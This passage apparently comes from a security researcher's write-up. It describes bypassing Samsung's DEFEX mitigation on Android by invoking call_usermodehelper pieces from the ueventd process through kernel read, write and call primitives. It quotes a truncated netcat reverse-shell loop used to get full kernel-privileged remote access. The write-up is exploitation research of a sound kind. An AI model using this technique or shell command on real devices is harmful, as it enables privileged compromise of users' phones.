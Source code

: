 As similar to the way we bypass SELinux restriction, to bypass new DEFEX, all we need to do is calling `call_usermodehelper`'s subroutines separately in `ueventd` process.

1.  Set `call_usermodehelper_setup`'s arguments in kernel memory via arbitrary kernel write primitive.
2.  Call `call_usermodehelper_setup` with our arguments via arbitrary kernel function call primitive.
3.  Read and Copy `system_unbound_wq` and `sub_info` data.
4.  Call `queue_work` with copied `system_unbound_wq` and `sub_info`.
5.  Due to DEFEX check in `do_execve`, we use shellscript like `/system/bin/sh -c "while [ 1 ] ; do /system/bin/toybox nc ..."` because `/system/bin/sh` has `feature_safeplace_path` attribute.

In this way, we can get reverse shell from remote server with full kernel privilege.

**[DEMO](https://twitter.com/vngkv123/status/1328223035137036290?s=20)**

[](#conclusion)Conclusion
=========================

Currently Android and iOS both are trying to prevent attacker from exploit their resources. Basically exterminating all bugs is impossible, so their focus is on hardening mitigations by introducing CFI like mechanisms. Although these mitigations surprisingly decrease exploitation success rate, we can always find bypass methods in their development assumption.